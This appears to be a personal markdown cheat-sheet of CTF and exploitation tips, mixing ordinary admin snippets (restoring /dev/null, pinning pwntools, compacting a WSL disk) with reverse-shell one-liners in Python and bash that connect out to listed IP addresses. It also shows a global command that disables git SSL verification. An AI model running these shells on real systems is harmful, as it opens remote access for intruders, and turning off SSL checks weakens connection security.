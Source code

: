 run as a root
`rm -f /dev/null; mknod -m 666 /dev/null c 1 3`

## python reversed shell
```sh
python -c "import os,socket,subprocess;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(('1.1.1.1',123445));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call(['/bin/bash','-i']);"
```

## pwntools can't attach

`pip install -U pwntools==4.8.0b0`

## Git SSL verify 

`git config --global http.sslverify false`

## Compact WSL vDisk

```powershell
wsl --shutdown
diskpart
# open window Diskpart
select vdisk file="C:\Users\n132\AppData\Local\Packages\CanonicalGroupLimited.Ubuntu20.04onWindows_79rhkp1fndgsc\LocalState\ext4.vhdx"
attach vdisk readonly
compact vdisk
detach vdisk
exit
# docker wsl
docker system prune -a -f
net stop com.docker.service
taskkill /F /IM "Docker Desktop.exe"
wsl --shutdown
Optimize-VHD -Path "C:\Users\n132\AppData\Local\Docker\wsl\data\ext4.vhdx" -Mode Full
wsl
net start com.docker.service
```






## reversed shell
system:
```bash
# system(cmd),cmd=
/bin/bash -c 'bash -i >/dev/tcp/192.168.74.132/4444 0>&1'
bash -c 'exec bash -i &>/dev/tcp/<ip address>/<port> <&1';
```


[1]: https://blog.csdn.net/chdhust/article/details/8495921
[2]: http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet
[3]: https://ctf-wiki.github.io/ctf-wiki/pwn/linux/arm/environment/
[4]: https://www.cs.utexas.edu/~bismith/test/syscalls/syscalls64_orig.html
[5]: http://syscalls.kernelgrok.com/
[6]: https://github.com/geohot/qira/pull/203
[7]: https://zhuanlan.zhihu.com/p/31918676
[8]: ../code/CompileAsmwithGcc/